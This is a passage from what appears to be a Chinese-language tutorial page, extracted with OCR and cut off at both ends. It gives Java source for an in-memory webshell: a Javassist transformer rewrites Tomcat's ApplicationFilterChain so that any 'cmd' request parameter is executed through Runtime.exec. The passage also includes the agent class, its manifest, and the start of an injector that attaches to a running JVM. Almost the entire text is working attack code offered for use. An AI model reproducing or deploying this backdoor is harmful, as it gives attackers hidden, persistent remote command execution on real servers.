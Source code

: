 ```java  
			        &#34;javax.servlet.http.HttpServletRequest request = $1\n;&#34; &#43;    
			        &#34;String cmd=request.getParameter(\&#34;cmd\&#34;);\n&#34; &#43;    
			        &#34;if (cmd !=null){\n&#34; &#43;    
			        &#34;  Runtime.getRuntime().exec(cmd);\n&#34; &#43;    
			        &#34;System.out.println(\&#34;Hello World\&#34;);\n&#34;&#43;    
			        &#34;  }&#34;&#43;    
			        &#34;}&#34;;  
            ctMethod.setBody(body);    
    
            //返回目标类字节码    
            byte[] bytes = ctClass.toBytecode();    
            return bytes;    
    
        }catch (Exception e){    
            e.printStackTrace();    
        }    
        return null;    
    }    
}  
```  
agent主类  
```java  
import java.lang.instrument.Instrumentation;    
import java.lang.instrument.UnmodifiableClassException;    
    
public class agentmain_transform {    
    public static void agentmain(String args, Instrumentation inst) throws InterruptedException, UnmodifiableClassException, UnmodifiableClassException {    
        Class [] classes = inst.getAllLoadedClasses();    
    
        //获取目标JVM加载的全部类    
        for(Class cls : classes){    
            if (cls.getName().equals(&#34;org.apache.catalina.core.ApplicationFilterChain&#34;)){    
    
                //添加一个transformer到Instrumentation，并重新触发目标类加载    
                inst.addTransformer(new Filter_Transform(),true);    
                inst.retransformClasses(cls);    
            }    
        }    
    }    
}  
```  
MANIFEST.MF  
```java  
Manifest-Version: 1.0    
Agent-Class: agentmain_transform  
Can-Redefine-Classes: true    
Can-Retransform-Classes: true  
  
```  
Inject类  
```java  
import com.sun.tools.attach.VirtualMachine;    
import com.sun.tools.attach.VirtualMachineDescriptor;    
    
import java.util.List;    
    
public class Inject_Agent {    
    public static void main(String[] args) throws Exception {    
        //调用VirtualMachine.list()获取正在运行的JVM列表      
List&lt;VirtualMachineDescriptor&gt; list = VirtualMachine.list();    
        for (VirtualMachineDescriptor vmd : list) {    
            if(vmd.displayName().equals(&#34;com.example.demo.DemoApplication&#34;)){    
```